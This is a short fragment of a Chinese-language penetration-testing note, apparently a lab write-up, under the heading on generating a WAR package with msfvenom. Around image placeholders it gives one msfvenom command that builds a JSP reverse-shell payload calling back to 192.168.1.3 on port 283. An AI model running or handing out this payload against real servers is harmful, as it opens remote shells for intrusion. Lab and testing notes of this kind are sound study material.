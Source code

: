 ![image-20250321151359628](assets/image-20250321151359628.png)



#### msfvenom生成war包

```
msfvenom -p java/jsp_shell_reverse_tcp Lhost=192.168.1.3 lport=283 -f war -o ra1n3.war
```

![image-20250321151504183](assets/image-20250321151504183.png)
